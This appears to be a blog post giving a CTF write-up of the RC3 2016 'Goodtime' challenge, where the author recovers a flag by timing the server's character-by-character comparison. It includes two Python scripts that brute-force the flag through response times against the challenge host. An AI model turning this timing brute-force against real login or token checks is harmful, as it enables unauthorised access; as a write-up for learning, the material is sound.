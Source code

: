```yaml
---
layout: post
title:  "RC3 2016 ~ Goodtime: Misc 150"
author: Vivi
date:   2016-11-20 04:29:33 -0700
categories: CTF Misc
tags: RC3 Programming
---	
```


This is a misc challenge from RC3 2016. RC3 hosts a CTF every year and have been one of my favorite CTFs simply because it's a lot easier than the DefCon qualifying CTFs. This challenge in particular was extremely long for a measly 150 points. It's not very hard - just really annoying and inconsistent.


**Challenge Details**
------------------

```
Goodtime - 150
--------------
The flag is not on the youtube video, the flag on there is someone trying to confuse you. Sorry.
The flag is also longer than normal.
https://www.youtube.com/watch?v=H7HmzwI67ec
nc goodtime.ctf.rc3.club 5866
NOTE: there should be a prompt when you connect. if there isn't it went down so scream at me in IRC until I fix.

author: wumb0
```

Like any person would - the first thing I did was view the [YouTube](https://www.youtube.com/watch?v=H7HmzwI67ec) video:

<figure>
<iframe width="560" height="315" src="https://www.youtube.com/embed/H7HmzwI67ec" frameborder="0" allowfullscreen></iframe>
   <figcaption>Good Time - Owl City & Carly Rae Jepson</figcaption>
</figure>

Obviously no clues here - it's just a video of Carly Rae Jepson; However, I did notice some guy posted a fake flag in the comments. That gave me a good laugh. Next thing to do was check out the netcat connection.

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93602.js" id="asciicast-93602" async ></script>
   <figcaption> nc goodtime.ctf.rc3.club 5866</figcaption>
</figure>

After trying out the netcat server, we noticed the server took longer to respond when we input something in the flag format (RC3-2016-XXXX). Since the title of this challenge was called goodtime - I'm going to assume the exploit is a lineariation attack via response time. In other words, we'll try to deduce the flag by comparing the response times of different inputs. I would assume the server checks the input - one character at a time. Thus an input of **Apple** have a shorter response time than **RC** simply because the server would check the **A** in **Apple** and stop - meanwhile the server would check **R**, then **C** then look for a **3** (to make RC3) in **RC**. Let's validate this by creating a script and testing it out.

[manualTime.py]({{site.github.url}}/assets/rc3/goodtime/manualTime.py)


```python
#!/usr/bin/env python
import time
import socket
import re
import sys

timer = time.clock if sys.platform == 'win32' else time.time

#host to connect to
host="54.167.134.245"
#the port with whatever u want 
port = 5866
#creating a socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#default values
flag = ""
highestTime = 0
attempt= "RC3-2016-"
allowedChars = "klmnopqrstuvwxyz-ABCDEFGHIJKLMNOPQRSTUVWXYZ"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#start timer
start = timer()
#start connecction
s.connect((host, port))
#Recover 2014 bytes of response and print
data2 = s.recv(1024)
print data2
print "Attempting: " + attempt
#Send out flag
s.send(attempt + '\n')
#Read response
data2 = s.recv(1024)
#end timer
print timer()-start
```

This script creates a socket and connects to the netcat server via the host and port provided. It then connects to the server using that socket and reads any incoming bytes. After which, we send our attempt on the flag. We wait for a response and print out the response time. This kind of socket scripting is useful when the server response is consistant. Here's what it looks like in usage.

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93604.js" id="asciicast-93604" async ></script>
   <figcaption>python manualTime.py</figcaption>
</figure>

Since now we know it's a linearization attack on response time, and the flag format is "RC3-2016-XXXXX", we only need to solve the last line of the flag. To do this, we need to test every single character - like a brute-force attack - and check the reponse time:

> RC3-2016-a

> RC3-2016-b

> RC3-2016-c

> RC3-2016-d

> RC3-2016-e

> RC3-2016-f

Assuming we hit the right character - that response would be be quite larger than the other inputs. Thus we can save the character with the longest response time and assume that's the next character in the flag. I automated this process in 

[goodtime.py]({{site.github.url}}/assets/rc3/goodtime/goodtime.py)


```python
#!/usr/bin/env python
import time
import socket
import re
import sys

timer = time.clock if sys.platform == 'win32' else time.time

host="54.167.134.245"
#the port with whatever u want 
port = 5866
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#default values
flag = "";
highestTime = 0;
attempt= ""
allowedChars = "abcdegfhijklmnopqrstuvwxyz-0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()"

for x in range(0,50):
	# Resets highestChar
	highestChar=""
	for x in allowedChars:
		#Creates attempt 1
		attempt = flag + x
		#Create socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		#Start timer
		start = timer()
		#Connect to netcat
		s.connect((host, port))
		#Recover response
		data2 = s.recv(1024)
		print data2
		#Send flag
		print "Attempting: " + attempt
		s.send(attempt + '\n')
		#keep this to get the actual response
		data2 = s.recv(1024)
		#End timer
		time1 = timer()-start
		print "Time 1: " + str(time1)
		# print 'time taken ', timer()-start ,' seconds'
		if (timer()-start > highestTime):
			highestTime = timer()-start
			highestChar = x
		s.close()
		#attempt 2
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		start = timer()
		s.connect((host, port))
		data2 = s.recv(1024)
		s.send(attempt + '\n')
		#keep this to get the actual response
		data2 = s.recv(1024)
		time2 = timer()-start
		print "Time 2: " + str(time2)
		# print 'time taken ', timer()-start ,' seconds'
		average = (time1+time2)/2
		print "Average: " + str(average)
		if (average > highestTime):
			highestTime = average
			highestChar = x
		s.close()
	print "Adding [" + highestChar + "] to flag"
	flag = flag + highestChar;
	print "Current Flag: " + flag
```

Let's check it out in use:

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93590.js" id="asciicast-93590" async ></script>
   <figcaption>python goodtime.py</figcaption>
</figure>

Combining both the automated and manual script, we were able to get the flag. 

> RC3-2016-itz-alw4yz-a-g00d-t1m1ng-@tt@ck

Let's confirm

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93610.js" id="asciicast-93610" async ></script>
   <figcaption>Confirming the flag</figcaption>
</figure>

The hardest part was due to inconsistency in the netcat connection. Any new characters I received from my script, I had to triple check manually. 9/10 it was just a false positive due to the netcat connection. It might've been better if I was connected with a wired connection rather than WIFI. Luckily, it wasn't so bad to guess some of the flag. When I saw the words **itz-al**, I already knew it was a Carly Rae reference - "It's always a good time". I manually input every version of **always** like **alw4ys** and **alw@ys** - one character at a time. Whenever the response time went up - I knew that was the correct character. The most trickiest part was after **g00d-t1m**. I thought I was done because I assumed the flag was **itz alwayz a good time**. I had to bruteforce the second **1** for **t1m1ng**. I had no clue why it was a **1** at the time only to realize an hour later it was **timing** and not **time**. Additionally, the last part of the flag - **@tt@ck** -  threw me off because I assumed the last word in the flag would be alphanumeric. The last word took me atleast 3 hours because the server kept crashing and each flag I input had a response time of atleast 10 seconds. To brute force the **@** it required all lowercase, uppercase, numbers, and punctuations - 10 seconds a piece. About 10 minutes if I was lucky the server didn't crash. At last though I was able to get the flag.